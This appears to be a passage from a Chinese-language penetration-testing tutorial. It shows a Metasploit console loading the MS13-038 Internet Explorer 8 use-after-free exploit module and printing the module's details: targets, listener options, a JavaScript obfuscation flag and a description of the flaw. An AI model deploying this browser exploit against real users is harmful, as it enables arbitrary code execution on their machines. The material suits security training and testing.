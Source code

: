 调用该模块并查看模块详情

```sh
msf6 > use exploit/windows/browser/ie_cgenericelement_uaf
msf6 exploit(windows/browser/ie_cgenericelement_uaf) > info
```

模块详情信息

```plaintext
       Name: MS13-038 Microsoft Internet Explorer CGenericElement Object Use-After-Free Vulnerability
     Module: exploit/windows/browser/ie_cgenericelement_uaf
   Platform: Windows
       Arch: 
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Good
  Disclosed: 2013-05-03

Provided by:
  Unknown
  EMH
  juan vazquez <juan.vazquez@metasploit.com>
  sinn3r <sinn3r@metasploit.com>

Available targets:
      Id  Name
      --  ----
  =>  0   Automatic
      1   IE 8 on Windows XP SP3
      2   IE 8 on Windows Vista
      3   IE 8 on Windows Server 2003
      4   IE 8 on Windows 7

Check supported:
  No

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  OBFUSCATE  false            no        Enable JavaScript obfuscation
  SRVHOST    *******          yes       The local host or network interface to listen on. This must be an address on the local machi
                                        ne or ******* to listen on all addresses.
  SRVPORT    8080             yes       The local port to listen on.
  SSL        false            no        Negotiate SSL for incoming connections
  SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
  URIPATH                     no        The URI to use for this exploit (default is random)

Payload information:
  Space: 1024
  Avoid: 1 characters

Description:
  This module exploits a vulnerability found in Microsoft Internet Explorer. A
  use-after-free condition occurs when a CGenericElement object is freed, but a
  reference is kept on the Document and used again during rendering, an invalid
  memory that's controllable is used, and allows arbitrary code execution under the
  context of the user.

    Please note: This vulnerability has been exploited in the wild on 2013 May, in
  the compromise of the Department of Labor (DoL) Website.

```